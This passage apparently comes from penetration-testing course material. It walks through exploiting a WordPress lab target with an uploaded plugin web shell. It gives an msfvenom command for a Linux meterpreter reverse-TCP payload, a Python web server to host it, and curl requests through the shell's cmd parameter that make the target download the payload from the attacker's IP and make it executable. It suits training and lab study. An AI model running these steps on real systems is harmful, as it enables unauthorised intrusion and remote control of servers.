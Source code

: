 ![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24/38.jpg)

Installing the plugin will upload the zip and extract the contents.

 Now that the plugin is installed, we can attempt to use it to run system commands on theWordPress target. For this, we can simply use cURL. As discussed earlier, the directory for theplugin is wp-content/plugins/, the zip will be extracted into a directory named plugin-shell, and thefile that we are targeting is named plugin-shell.php.
 
 Remember that we must also set a cmd parameter containing the command we are attempting to execute on the target system. Let’s attempt to run whoami and see if the shell worked.
 
 It worked! Based on the output of Listing 880, we are running commands as the www-data user.Now it’s time to upload a meterpreter payload and obtain a full reverse shell.
 
 First let’s generate a meterpreter payload with the msfvenom utility.
 
 kali@kali:~$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=443 -
f elf > shell.elf
 
 
 We are selecting the Linux reverse TCP meterpreter payload since we know that the target isrunning on Ubuntu from our previous enumeration efforts. The LHOST option will point to our KaliIP address and we are selecting an LPORT of 443 in an attempt to evade any outbound firewall rules.While it’s good practice to always check for any egress filtering, in this case we will make theassumption that port 443 is unrestricted. We are generating the payload as an elf file andredirecting the output to a file named shell.elf in the kali user home directory.
 
 With the meterpreter reverse shell generated, we start a web server to allow the target to downloadthe shell.
 
 kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 ...
 
 The webserver in Listing 882 is using the Python http.server module, is instructed to use port 80,and is serving files from the kali user home directory. We chose port 80 again to avoid any potentialissues we might run into if there is a firewall blocking arbitrary outbound ports.
 
 With the shell generated and the web server running, we will instruct the target to download theshell. We will use wget from the target to download the shell from our Kali system. However, wemust encode any space characters with “%20” since we cannot use spaces in URLs. The commandwe are running is shown in Listing 883.
 
 kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.ph
p?cmd=wget%20http://10.11.0.4/shell.elf
 
 If the command worked, we should see an entry similar to the following in our Python webserver’slog.
 
 Serving HTTP on 0.0.0.0 port 80 ...
10.11.1.250 - - [09/Dec/2019 19:40:16] "GET /shell.elf HTTP/1.1" 200 -

 
 Success! Next we need to make the shell executable, start a Metasploit payload handler on Kali,and run the elf file on the target to acquire a meterpreter shell. To make the shell executable, wewill run chmod +x on it. Once again, we need to remember to urlencode sensitive characters suchas space (%20) and “+” (%2b). The command to make the shell executable is displayed in Listing885.
 
 kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.ph
p?cmd=chmod%20%2bx%20shell.elf
 